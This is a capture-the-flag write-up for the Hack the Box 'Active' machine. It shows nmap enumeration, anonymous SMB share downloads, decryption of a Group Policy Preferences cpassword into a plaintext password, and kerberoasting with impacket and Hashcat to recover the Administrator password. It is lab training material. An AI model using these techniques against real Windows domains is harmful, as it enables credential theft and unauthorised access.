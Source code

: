 ```yaml
---
description: Hack the Box Active Writeup
---
```


# 🏃♂ Active Writeup

![](.gitbook/assets/Active.png)

We started off with the usual nmap scan using:

```
nmap -sV -sC 10.129.227.160 > notes
```

Once this completes and we open our notes we can see that there are a whole lot of ports open. Does this mean we go check every single one? Hell no. Lets look and see what the ports are for and we can see how they are working together.

```
Nmap scan report for 10.129.227.160
Host is up (0.086s latency).
Not shown: 982 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-29 00:10:33Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-05-29T00:11:32
|_  start_date: 2022-05-29T00:09:00
```

We can see that this is a Windows Server 2008 machine and it has SMB, ports 445 and 139 are open. We can also see that it is probably a domain controller because it has AD LDAP running along with Kerberos, AD's authentication ticketing system.

So we know its Windows so we can't approach it the same way we would a Linux machine. To enumerate some more lets run enum4linux.

After running this we can see that there are a few shares that are up, after testing for NULL sessions we know that we only have access to one share, Replication.

![](.gitbook/assets/Active-AnonLogin.PNG)

Because there was a bunch of random directories and files in this share I went ahead and downloaded them all using this one-liner:

```
smbclient '\\10.129.227.160\Replication' -N -c 'prompt OFF;recurse ON;cd 'active.htb\';lcd '<dir to save to>';mget *'
```

After looking through a bit we can see there is  interesting data in 'active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml'

```
<?xml version="1.0" encoding="utf-8"?>
	<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
	</Groups>
```

In this we can see that this contains a username for an account on the box plus a variable called cpassword. After some research we can see that its a Group Policy Preference file and cpassword can be decrypted very easily by a tool called gpp-decrypt, its built into Parrot and Kali OSs.

After running:

![](.gitbook/assets/Active-crackingGPP.PNG)

We get the password 'GPPstillStandingStrong2k18'. Lets use it to try to connect to other shares...Bingo. We now have access to the Users share.

```
smbclient //10.129.227.160/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
```

We can get the user.txt file from here.

Side Note: I couldn't get the user.txt file for some reason with smbclient so I ended up using smbmap to grab it.

Ok so back on track now. We need to get Administrator now. After running through a few possible options I realized we are going to need to utilize kerberoasting to get the Administrator account.

For this we are going to use the all might impacket repo. GetUserSPNs.py to be exact. With this we are going to try to grab the Administrator ticket and crack it with Hashcat.

![](.gitbook/assets/Active-Kerbroast1.PNG)

YES!!

Now that we got the Administrator ticket saved we are going to run Hashcat and crack it open like an egg.

![](.gitbook/assets/Active-kerberoast2.PNG)

And bingo. The password is 'Ticketmaster1968'. Now we can just login and grab the root.txt file and we are done.

PWNED!!
